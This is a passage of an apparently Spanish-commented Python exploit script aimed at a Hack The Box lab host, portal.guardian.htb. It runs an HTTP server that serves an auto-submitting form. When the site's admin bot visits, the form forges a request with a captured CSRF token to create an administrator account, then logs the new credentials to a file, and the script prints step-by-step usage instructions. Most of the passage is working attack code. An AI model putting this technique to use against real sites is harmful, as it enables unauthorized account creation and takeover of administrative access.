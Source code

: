 ```python
        console.log("Auto-creating admin user: {username}");
        
        // Enviar formulario automáticamente
        setTimeout(function() {{
            document.getElementById('adminForm').submit();
            console.log("Form submitted for user: {username}");
        }}, 100);
        
        // Redirección de respaldo por si falla el formulario
        setTimeout(function() {{
            window.location.href = "http://portal.guardian.htb/admin/createuser.php";
        }}, 2000);
    </script>
    
    <noscript>
        <meta http-equiv="refresh" content="0;url=http://portal.guardian.htb/admin/createuser.php">
    </noscript>
    
</body>
</html>
'''
        
        self.send_response(200)
        self.send_header('Content-type', 'text/html')
        self.end_headers()
        self.wfile.write(html.encode())
        
        print(f"[+] Servido formulario auto-submit para usuario: {username}")
        print(f"[+] Credenciales: {username} / {password}")
        print(f"[+] Token CSRF usado: {CSRF_TOKEN}")
        
        # Guardar credenciales en archivo
        with open("created_admins.txt", "a") as f:
            f.write(f"{username}:{password}\n")
    
    def log_message(self, format, *args):
        print(f"[SSRF] {format % args}")

def start_ssrf_server():
    """Iniciar servidor SSRF"""
    print("🚀 SSRF AUTO-ADMIN CREATION SERVER")
    print("=" * 50)
    print(f"[+] Token CSRF: {CSRF_TOKEN}")
    print(f"[+] Tu IP: {YOUR_IP}")
    print("[+] Servidor escuchando en puerto 80")
    print("\n[INSTRUCCIONES]")
    print("1. Usa esta URL en reference_link: http://10.10.14.43/")
    print("2. El bot admin visitará y creará automáticamente un usuario admin")
    print("3. Las credenciales se guardarán en 'created_admins.txt'")
    print("4. Luego podrás loguearte con esas credenciales")
    print("\n[*] Esperando conexiones del bot admin...\n")
    
    server = HTTPServer(('0.0.0.0', 80), AutoSubmitSSRFHandler)
    server.serve_forever()

if __name__ == '__main__':
    start_ssrf_server()
```
